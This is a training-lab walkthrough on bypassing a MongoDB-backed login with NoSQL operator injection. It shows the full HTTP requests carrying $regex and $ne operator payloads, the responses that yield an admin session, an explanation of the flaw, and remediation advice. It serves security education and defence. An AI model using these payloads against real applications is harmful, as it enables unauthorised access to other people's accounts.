



# Lab: Exploiting NoSQL operator injection to bypass authentication

**Goal:** the login form sends JSON to a MongoDB-backed `/login` endpoint. Abuse query operators instead of plain string values to log in without knowing a password, ultimately reaching an admin account.

## 1. Capture a normal login request

Log in with the lab's own test credentials (`wiener:peter`) and send the request to Burp Repeater. The backend query maps straight from the JSON body:

```http
POST /login HTTP/2
Content-Type: application/json

{"username":"wiener","password":"peter"}
```

```text
HTTP/2 302 Found
Location: /my-account?id=wiener
Set-Cookie: session=9CVNaY1A9n65Cn0Ay5FLygppaIA60hLN; ...
```



## 2. Replace scalar fields with operator objects

Instead of plain strings, send MongoDB operators in place of the `username`/`password` values. `$regex` lets you match any username that starts with `"admin"`, and `$ne` makes the password check true for anything other than an empty string:

```json
{
  "username": { "$regex": "admin" },
  "password": { "$ne": "" }
}
```

```http
POST /login HTTP/2
Content-Type: application/json

{"username":{"$regex":"admin"},"password":{"$ne":""}}
```

The server resolves this into a MongoDB query equivalent to *"find a user whose username contains `admin`, with any non-empty password"* — and logs the attacker in as that account without ever supplying its real credentials.

```text
HTTP/2 302 Found
Location: /my-account?id=adminsmxx8ymi
Set-Cookie: session=BgndhjpKo2p3QJDxOO3J0TBt3FN2p5oJ; ...
```



## 3. Confirm the bypass

Follow the redirect to **My account** and confirm the session now belongs to the randomised admin username the application generated for this lab instance.



## Why it works

The login handler trusts the client-sent JSON's structure and passes `username`/`password` straight into `db.users.find({...})` without checking that each value is a plain string. MongoDB doesn't distinguish "a value the developer intended as literal data" from "an operator object" — both are just JSON. By supplying `{"$regex": "admin"}` and `{"$ne": ""}`, the attacker turns two equality checks into "username matches a pattern" and "password is non-empty", a condition almost any real admin account satisfies.

## Remediation

- Reject request bodies where an expected string field is actually an object/array before it reaches the query — enforce types at the API boundary.
- Use the database driver's typed query-builder rather than passing parsed client JSON straight into a filter.
- Apply strict JSON schema validation to authentication endpoints specifically, since they are the highest-value target for this bypass.
